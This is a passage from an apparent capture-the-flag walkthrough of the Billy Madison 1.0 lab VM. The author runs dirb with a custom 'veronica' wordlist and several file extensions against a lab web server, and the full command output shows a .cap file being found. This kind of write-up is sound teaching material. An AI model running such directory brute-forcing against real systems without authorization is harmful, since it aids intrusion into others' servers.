 Excellent!  Veronica's password!.... well.... not really.   False positive =(.

I decided to cut my losses so and go back to the admin console.

## TCP/80 - HTTP - Here we go again

I went ahead and ran dirb again, this time, looking for any file that was in the `veronica.txt` password file with the `.captured` extension.

{% highlight bash %}
root@kali:~/evidence/billymadison1.0# dirb http://192.168.244.157/exschmenuating/ veronica.txt -X .captured

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Sep 16 13:37:17 2016
URL_BASE: http://192.168.244.157/exschmenuating/
WORDLIST_FILES: veronica.txt
EXTENSIONS_LIST: (.captured) | (.captured) [NUM = 1]

-----------------

GENERATED WORDS: 763                                                           

---- Scanning URL: http://192.168.244.157/exschmenuating/ ----
+ http://192.168.244.157/exschmenuating/veronica$%.captured (CODE:400|SIZE:307)                                  

-----------------
END_TIME: Fri Sep 16 13:37:17 2016
DOWNLOADED: 763 - FOUND: 1
root@kali:~/evidence/billymadison1.0# -
{% endhighlight %}

No dice.

Well hoping it was some sort of pcap file I decided to try `.pcap` next with the same results.  At this point google to the rescue, the other file types Wireshark can read are `.cap` and `.dmg`.

{% highlight bash %}
root@kali:~/evidence/billymadison1.0# dirb http://192.168.244.157/exschmenuating/ veronica.txt -X .cap

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Sep 16 13:44:36 2016
URL_BASE: http://192.168.244.157/exschmenuating/
WORDLIST_FILES: veronica.txt
EXTENSIONS_LIST: (.cap) | (.cap) [NUM = 1]

-----------------

GENERATED WORDS: 763                                                           

---- Scanning URL: http://192.168.244.157/exschmenuating/ ----
+ http://192.168.244.157/exschmenuating/veronica$%.cap (CODE:400|SIZE:307)                                        
+ http://192.168.244.157/exschmenuating/012987veronica.cap (CODE:200|SIZE:8700)                                   

-----------------
END_TIME: Fri Sep 16 13:44:36 2016
DOWNLOADED: 763 - FOUND: 2
root@kali:~/evidence/billymadison1.0# -
{% endhighlight %}
